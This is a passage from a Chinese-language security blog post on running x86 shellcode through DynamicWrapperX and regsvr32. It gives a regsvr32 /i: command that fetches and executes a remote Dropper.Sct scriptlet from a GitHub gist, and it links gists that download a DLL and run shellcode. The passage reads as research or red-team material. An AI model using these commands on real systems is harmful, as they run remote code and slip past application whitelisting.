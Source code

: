 ## 0x04 regsvr32利用方式
---
前面提到过dynwrapx.dll是一个32位的dll，注册的组件也只能供32位程序调用

所以在64位系统下使用需要注意如下：

1. 只支持x86 shellcode
2. 在64位系统下要使用syswow64文件夹下的32位程序

利用方式：

```
C:\Windows\SysWow64\regsvr32.exe /s /u /i:[sct路径] scrobj.dll
```

将js代码写到sct文件中，就可以将其放到服务器上

**实现远程调用sct的实例地址：**

https://gist.github.com/subTee/ca6ab8ec75ec38c213da580cd0de30fe



**自动化download, register dll, execute Shellcode的实例地址：**

https://gist.github.com/subTee/aa548b36b5d3c8f07e2024ab39217712

里面多了一个调用certuil.exe对文件进行base64加解密

cmd下执行如下代码实现远程调用sct：

```
C:\Windows\SysWow64\regsvr32.exe /s /u /i:https://gist.githubusercont
ent.com/subTee/aa548b36b5d3c8f07e2024ab39217712/raw/5dc12c648229574e6172a70ba13f
db220ef1a2e8/Dropper.Sct scrobj.dll
```

**注：**

使用前需要提前安装DynamicWrapperX

实际测试如图

![Alt text](https://raw.githubusercontent.com/3gstudent/3gstudent.github.io/master/_posts/2016-9-13/3-5.png)


## 0x05 补充
---
最新的DynamicWrapperX已经支持x64，版本为DynamicWrapperX 2.0

**相关地址：**

http://www.minner.ru/html/Dynwrapx.html

在64位系统上面需要分别注册32位和64位的DynamicWrapperX

64位dll注册成功后，js脚本可直接运行，如图

![Alt text](https://raw.githubusercontent.com/3gstudent/3gstudent.github.io/master/_posts/2016-9-13/3-3.png)
